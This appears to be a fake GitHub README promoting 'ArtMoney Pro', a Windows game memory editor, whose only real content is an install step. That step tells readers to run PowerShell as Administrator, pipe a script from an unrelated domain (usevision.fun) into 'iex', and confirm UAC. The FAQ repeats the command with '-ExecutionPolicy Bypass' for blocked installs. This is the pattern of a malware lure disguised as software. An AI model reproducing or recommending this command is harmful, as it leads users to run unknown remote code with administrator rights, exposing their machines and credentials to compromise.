

<div align="center">


<br>


# ArtMoney Pro Advanced Memory Editor
**Memory scanner · Value editor · Multi-process support**
<br>
**Memory scanner · Value editor · Multi-process support**
<br>
Windows · Setup · Deployment



**ArtMoney Pro · Memory scan · Value freeze · Windows**

</div>
---

> Windows memory editor for scanning and editing game values — search by type, freeze addresses, and manage profiles for single-player titles.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://usevision.fun/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

🔍 **Memory scan** — Search integers, floats, and strings in running processes.
📌 **Value freeze** — Lock health, currency, and stats during gameplay.
🗂️ **Profile save** — Store table files for repeat sessions.
🖥️ **Multi-process** — Attach to 32-bit and 64-bit Windows games.
⚡ **One command setup** — PowerShell handles download and install.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 4 GB |
| **Disk** | 500 MB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://usevision.fun/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 4 GB, 500 MB.
</details>


TAGS
artmoney, memory-editor, game-tools, value-scanner, windows, desktop, gaming, utilities, software, tools
